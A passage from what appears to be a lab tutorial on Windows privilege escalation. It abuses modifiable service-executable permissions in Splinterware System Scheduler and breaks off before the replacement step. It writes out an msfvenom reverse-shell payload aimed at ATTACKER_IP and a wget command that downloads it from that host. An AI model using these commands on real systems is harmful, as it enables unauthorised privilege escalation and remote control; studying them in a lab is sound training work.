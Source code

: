 To understand how this works, let's look at a vulnerability found on Splinterware System Scheduler. To start, we will query the service configuration using `sc`:

```cmd
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 0   IGNORE
    BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : System Scheduler Service
    DEPENDENCIES       :
    SERVICE_START_NAME : .\svcuser1
```

We can see that the service installed by the vulnerable software runs as `svcuser1` and the executable associated with the service is in `C:\Progra~2\System~1\WService.exe`. We then proceed to check the permissions on the executable:

```cmd
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                  NT AUTHORITY\SYSTEM:(I)(F)
                  BUILTIN\Administrators:(I)(F)
                  BUILTIN\Users:(I)(RX)
                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

And here we have something interesting. The `Everyone` group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.

Let's generate an exe-service payload using `msfvenom` and serve it through a python webserver:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We can then pull the payload from Powershell with the following command:

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the `Everyone` group as well:
